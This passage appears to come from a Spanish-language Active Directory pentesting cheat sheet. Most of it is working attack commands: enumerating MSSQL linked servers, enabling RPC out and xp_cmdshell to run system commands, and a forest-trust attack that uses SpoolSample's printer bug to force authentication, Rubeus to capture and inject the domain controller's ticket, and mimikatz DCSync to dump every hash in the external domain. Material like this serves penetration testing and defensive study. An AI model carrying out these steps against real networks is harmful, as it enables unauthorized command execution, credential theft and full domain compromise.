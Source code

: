 Luego, podemos usar consultas para enumerar otros enlaces de la base de datos vinculada:

```powershell
#Manualmente:
select * from openquery("LinkedDatabase", 'select * from master..sysservers')

#PowerUpSQL (Enumerará todos los enlaces en los bosques y sus dominios secundarios):
Get-SQLServerLinkCrawl -Instance <SPN> -Verbose

# Habilitar salida RPC (necesario para ejecutar XP_CMDSHELL)
EXEC sp_serveroption 'sqllinked-hostname', 'rpc', 'true'; EXEC sp_serveroption 'sqllinked-hostname', 'rpc out', 'true';
select * from openquery("SQL03", 'EXEC sp_serveroption ''SQL03'',''rpc'',''true'';');
select * from openquery("SQL03", 'EXEC sp_serveroption ''SQL03'',''rpc out'',''true'';');

#Luego podemos ejecutar el comando en la máquina donde se ejecuta el servicio SQL usando xp_cmdshell
#O, si está deshabilitado, habilítalo:
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "SPN"
```

Ejecución de la consulta:

```powershell
Get-SQLServerLinkCrawl -Instace <SPN> -Query "exec master..xp_cmdshell 'whoami'"
```

### Rompiendo las confianzas del bosque

_¿QUÉ ES DIS?: \
TL;DR \
Si tenemos una confianza bidireccional con un bosque externo y logramos comprometer una máquina en el bosque local que tiene habilitada la delegación sin restricciones (los controladores de dominio la tienen por defecto), podemos usar el comando printerbug para forzar al controlador de dominio del dominio raíz del bosque externo a autenticarse con nosotros. Luego, podemos capturar su TGT, inyectarlo en memoria y usar DCsync para volcar sus hashes, lo que nos da acceso completo a todo el bosque.

Herramientas que usaremos:

- [Rubeus](https://github.com/GhostPack/Rubeus)
- [SpoolSample](https://github.com/leechristensen/SpoolSample)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz)

Ejemplo de explotación:

```powershell
#Iniciar la monitorización de TGT con Rubeus:
Rubeus.exe monitor /interval:5 /filteruser:target-dc

#Ejecutar el `printerbug` para activar la autenticación forzada del controlador de dominio de destino en nuestra máquina
SpoolSample.exe target-dc.external.forest.local dc.compromised.domain.local

#Obtener el TGT base64 capturado de Rubeus e inyectarlo en Memoria:
Rubeus.exe ptt /ticket:<Base64ValueofCapturedTicket>

#Volcar los hashes del dominio de destino usando mimikatz:
lsadump::dcsync /domain:external.forest.local /all
```
